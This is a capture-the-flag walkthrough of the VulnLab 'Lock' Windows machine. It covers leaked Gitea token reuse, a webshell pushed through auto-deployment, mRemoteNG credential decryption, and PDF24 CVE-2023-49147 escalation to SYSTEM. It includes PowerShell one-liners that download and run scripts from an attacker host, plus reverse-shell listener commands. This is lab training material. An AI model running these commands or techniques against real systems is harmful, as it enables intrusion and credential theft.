## Introduction
------------------------------------------------------------------------------------------
[lock](https://www.vulnlab.com/machines) is an easy-rated Windows box from VulnLab. To gain initial access, we clone a public Gitea repository whose first commit contains a leaked authorization token, giving us access to a private repository. That private repository has automatic deployment configured (essentially CI/CD), pushing content directly to port 80. By committing a `shell.aspx` webshell to the repository, we trigger a deployment and land a reverse shell by simply visiting it on port 80. For privilege escalation, we first decrypt an mRemoteNG configuration file to recover Gale.Dekarios's credentials, then exploit PDF24 (version 11.15.1) via CVE-2023-49147 to escalate to SYSTEM.

------------------------------------------------------------------------------------------


## Enumeration
We start with a full scan to discover all open TCP ports.
### All Open Ports
```bash
rustscan -a 10.10.84.26
```


### Services Scanning
```bash
nmap -p80,445,3000,3389,5357,5985 -sC -sV -v -oN lock.full lock.vl
```
```text
# Nmap 7.94SVN scan initiated Sun Nov 24 17:55:00 2024 as: nmap -p80,445,3000,3389,5357,5985 -sC -sV -v -oN lock.full lock.vl
Nmap scan report for lock.vl (10.10.84.26)
Host is up (0.051s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Lock - Index
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
445/tcp  open  microsoft-ds?
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=b965503876d81b1c; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=mJNYpuSqUQIKVkKKDZ5dI6XKhWU6MTczMjQ2NzMwNjQ2OTM4NTUwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 24 Nov 2024 16:55:06 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=7d4bc46705756144; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=SH2gMnJyXmvRroy72O1upcIQgrc6MTczMjQ2NzMxMTgwNzIzMDcwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 24 Nov 2024 16:55:11 GMT
|_    Content-Length: 0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Lock
| Issuer: commonName=Lock
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-23T16:24:27
| Not valid after:  2025-05-25T16:24:27
| MD5:   0930:c083:9f5b:8c59:4d9a:e960:2c27:e69a
|_SHA-1: 5a31:f527:a779:7ea8:4b4b:b406:3911:7bf0:d800:203b
|_ssl-date: 2024-11-24T16:57:09+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LOCK
|   NetBIOS_Domain_Name: LOCK
|   NetBIOS_Computer_Name: LOCK
|   DNS_Domain_Name: Lock
|   DNS_Computer_Name: Lock
|   Product_Version: 10.0.20348
|_  System_Time: 2024-11-24T16:56:29+00:00
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Service Unavailable
|_http-server-header: Microsoft-HTTPAPI/2.0
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=11/24%Time=67435A6B%P=x86_64-pc-linux-gnu%
SF:r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\
SF:x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20B
SF:ad\x20Request")%r(GetRequest,2E58,"HTTP/1\.0\x20200\x20OK\r\nCache-Cont
SF:rol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_gi
SF:tea=b965503876d81b1c;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Co
SF:okie:\x20_csrf=mJNYpuSqUQIKVkKKDZ5dI6XKhWU6MTczMjQ2NzMwNjQ2OTM4NTUwMA;\
SF:x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Op
SF:tions:\x20SAMEORIGIN\r\nDate:\x20Sun,\x2024\x20Nov\x202024\x2016:55:06\
SF:x20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"th
SF:eme-auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=de
SF:vice-width,\x20initial-scale=1\">\n\t<title>Gitea:\x20Git\x20with\x20a\
SF:x20cup\x20of\x20tea</title>\n\t<link\x20rel=\"manifest\"\x20href=\"data
SF::application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIH
SF:RlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3Rhc
SF:nRfdXJsIjoiaHR0cDovL2xvY2FsaG9zdDozMDAwLyIsImljb25zIjpbeyJzcmMiOiJodHRw
SF:Oi8vbG9jYWxob3N0OjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9
SF:wbmciLCJzaXplcyI6IjU")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\
SF:r\n\r\n400\x20Request")%r(HTTPOptions,197,"HTTP/1\.0\x20405\x20M
SF:ethod\x20Not\x20Allowed\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Con
SF:trol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\n
SF:Set-Cookie:\x20i_like_gitea=7d4bc46705756144;\x20Path=/;\x20HttpOnly;\x
SF:20SameSite=Lax\r\nSet-Cookie:\x20_csrf=SH2gMnJyXmvRroy72O1upcIQgrc6MTcz
SF:MjQ2NzMxMTgwNzIzMDcwMA;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20Sa
SF:meSite=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\nDate:\x20Sun,\x2024\x20
SF:Nov\x202024\x2016:55:11\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSP
SF:Request,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-11-24T16:56:30
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 24 17:57:11 2024 -- 1 IP address (1 host up) scanned in 130.96 seconds
```
### Hostname
```bash
echo '10.10.84.26  lock.vl lock'  >> /etc/hosts
```

## Foothold
### Port 80
Port 80 hosts a standard IIS web application — nothing immediately interesting, but worth keeping in mind since this is where our deployed code will land.

### Port 3000
Port 3000 runs a Gitea instance. Gitea is a self-hosted Git service, and publicly exposed instances are always worth investigating for misconfigured or leaky repositories.



We can see a public repository owned by `ellen.freeman`. Let's clone it and inspect its history — developers often forget that sensitive data committed to git is preserved forever, even after deletion.
```bash
git clone http://lock.vl:3000/ellen.freeman/dev-scripts.git
```


`git log` shows multiple commits. Checking out an earlier commit lets us see the state of the repository at that point in time — this is the standard approach for hunting secrets that were "deleted" but never truly removed from history.
```bash
git log
git checkout dcc869b175a47ff2a2b8171cda55cb82dbddff3d
```




```python
import requests
import sys

# store this in env instead at some point
PERSONAL_ACCESS_TOKEN = '43ce39bb0bd6bc489284f2905f033ca467a6362f'

def format_domain(domain):
    if not domain.startswith(('http://', 'https://')):
        domain = 'https://' + domain
    return domain

def get_repositories(token, domain):
    headers = {
        'Authorization': f'token {token}'
    }

    url = f'{domain}/api/v1/user/repos'
    response = requests.get(url, headers=headers)

    if response.status_code == 200:
        return response.json()
    else:
        raise Exception(f'Failed to retrieve repositories: {response.status_code}')
```

The first commit contains a hardcoded Gitea authorization token. With this token we can authenticate to the Gitea API and enumerate repositories that are not publicly visible, including private ones. Let's run the repos.py script for that:

```bash
python3 repos.py http://lock.vl:3000 
```


The script reveals a private repository — `website` — that we couldn't see without authentication. We clone it by embedding the token directly in the URL, which is how Gitea accepts token-based authentication over HTTP.
```bash
git clone http://43ce39bb0bd6bc489284f2905f033ca467a6362f@lock.vl:3000/ellen.freeman/website.git
```


To confirm that this repository's contents are what gets served on port 80, we fuzz the web root and cross-reference the results with the files in the cloned repository.
```bash
ffuf -c -u http://lock.vl/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .txt
```


The file structure matches. This confirms that whatever we push to the repository will be automatically deployed and accessible on port 80 — a classic CI/CD misconfiguration. We add a simple ASPX webshell and push it.
```sh
git add .
git commit -m 'rev shell'
git push origin main
```


After the push, we trigger the shell by requesting the file and catching the connection with a listener.
```bash
curl http://lock.vl/shell.aspx
nc -lvnp 12345
```


We now have a shell as `ellen.freeman`. Looking around the filesystem, a `.gitconfig` file reveals credentials left behind by the developer.


```
user: ellen:freeman
pass: fakepassword
```

Browsing to `ellen.freeman`'s Documents folder, we find an mRemoteNG configuration file. mRemoteNG is a remote connection manager that stores saved connection credentials — often encrypted with a weak default key.
```sh
type C:\Users\ellen.freeman\Documents\config.xml 
```


We copy the config file and decrypt it locally using a known mRemoteNG decryption script. Since mRemoteNG uses AES encryption with a default password (`mR3m`), this is trivial when the user hasn't set a custom master password.
```sh
python3 mremoteng_decrypt.py config.xml 
```


The decrypted config reveals credentials for `Gale.Dekarios`. We use them to open a full RDP session.
```
user: Gale.Dekarios
pass: fakepassword
```
```sh
xfreerdp /u:'Gale.Dekarios' /p:'fakepassword' /v:lock
```


## Privilege Escalation
With a desktop session as `Gale.Dekarios`, we run standard privilege escalation enumeration tools to identify attack surface.
```powershell
powershell -ep bypass
iex (iwr http://10.8.4.67/PowerUp.ps1 -UseBasicParsing)
iex ((New-Object Net.WebClient).DownloadString('http://10.8.4.67/PrivescCheck.ps1'))
Invoke-AllChecks
Invoke-PrivescCheck

curl -o procexp64.exe http://10.8.4.67/procexp64.exe
```


Process Explorer reveals that PDF24 is installed. Checking its version shows it falls within the vulnerable range for CVE-2023-49147, a local privilege escalation that abuses the MSI repair process.
```
Vulnerable: <=11.15.1
Fixed: 11.15.2
```


The vulnerability works as follows: the MSI repair operation runs as SYSTEM and writes to a log file at a predictable path. By using `SetOpLock` to place an opportunistic lock on that log file, we can pause the installer mid-execution — at a point where a SYSTEM-level GUI is still open and interactive. We trigger the repair either via `msiexec /fa` or by right-clicking the MSI and selecting "Repair".
```powershell
msiexec.exe /fa "C:\_install\pdf24-creator-11.15.1-x64.msi"
or 
Manually right click on the msi file then repair...

SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r
```


With the installer paused and running as SYSTEM, we interact with its GUI to open a file dialog and navigate to `cmd.exe`. Right-clicking and selecting "Legacy console mode" (or opening an Explorer/Edge window and typing the path) gives us a SYSTEM shell.
```text
Right click -> Legacyconsolemode -> Edge/Explorer -> cmd.exe
```




## Kill Chain Summary
1. Clone the publicly available repository from Gitea, revert to the first commit, and discover a leaked Gitea authorization token.
2. Use the token to enumerate all repositories on the instance and clone the private `website` repository.
3. The repository is the source for the app running on port 80 — abuse the CI/CD pipeline to push a webshell and get a reverse shell as `ellen.freeman`.
4. Read the mRemoteNG config file from `ellen.freeman`'s Documents folder and decrypt it to recover `Gale.Dekarios`'s credentials.
5. Exploit CVE-2023-49147 in PDF24 (version 11.15.1) via the MSI repair mechanism to obtain a SYSTEM shell.


## References
[CVE-2023-49147](https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-msi-installer-in-pdf24-creator-geek-software-gmbh/)
